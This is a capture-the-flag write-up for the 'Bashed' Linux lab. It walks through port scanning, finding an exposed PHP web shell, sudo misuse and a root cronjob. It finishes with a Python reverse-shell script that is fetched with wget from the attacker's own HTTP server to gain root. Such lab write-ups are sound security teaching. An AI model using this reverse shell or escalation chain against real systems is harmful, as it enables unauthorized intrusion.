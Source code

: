 ## Bashed 

### Lab Details 

- Difficulty: Easy 
- Type: Linux, Web Shell, Priv Esc

#### Tasks

Q1: How many open TCP ports are listening on Bashed?
 - `nmap target_ip -sT -A -T4`

Q2: What is the relative path on the webserver to a folder that contains phpbash.php?
 - use ffuf to enum the path 
 - `ffuf -u http://target_ip/FUZZ -w /usr/share/wordlists/dirb/big.txt`
 ```
 ...
 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 317ms]
    * FUZZ: dev
 ... 
 ```
 - webshell located at:  http://target_ip/dev/phpbash.php

Q3: What user is the webserver running as on Bashed?
 - `www-data@bashed`

Q4: Submit the flag located in the arrexel user's home directory.
 - cat /home/arrexel/user.txt

Q5: www-data can run any command as a user without a password. What is that user's username?
 - sudo -l -> scriptmanager

Q6: What folder in the system root can scriptmanager access that www-data could not?
 - ls -la / 
 ```
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 scripts
 ```
Q7: What is filename of the file that is being run by root every couple minutes?
 - `-u` flag of sudo allows the a command to be run as another user on the target 
 - `sudo -u scriptmanager ls -la /scripts` can be run to list the content in /scripts directory
 - below is the result of running the ls command at different times
 ```
 -- first run
 www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
 total 16
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
 drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
 -rw-r--r-- 1 root root 12 May 15 05:45 test.txt

 -- second run 
 www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
 total 16
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
 drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
 -rw-r--r-- 1 root root 12 May 15 05:48 test.txt
 ``` 
 - theres a difference in modify date of test.txt

Q8: Submit the flag located in root's home directory.
- since test.py is getting executed as cronjob and scriptmanager has read/write access over /scripts
- a reverse shell can be loaded to /scripts and it will be executed when the next cronjob runs  
- below is test.py 
 ```
 import socket,subprocess,os
 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
 s.connect(("target_ip",9002))
 os.dup2(s.fileno(),0)
 os.dup2(s.fileno(),1)
 os.dup2(s.fileno(),2)
 import pty
 pty.spawn("sh")
 ```
- host test.py file on local using `python3 -m http.server` 
- fetch from local `sudo -u scriptmanager wget http://10.10.14.27:8000/ -O /scripts/test.py` 
- run netcat to catch the reverse shell with root access 

#### Lesson Learned
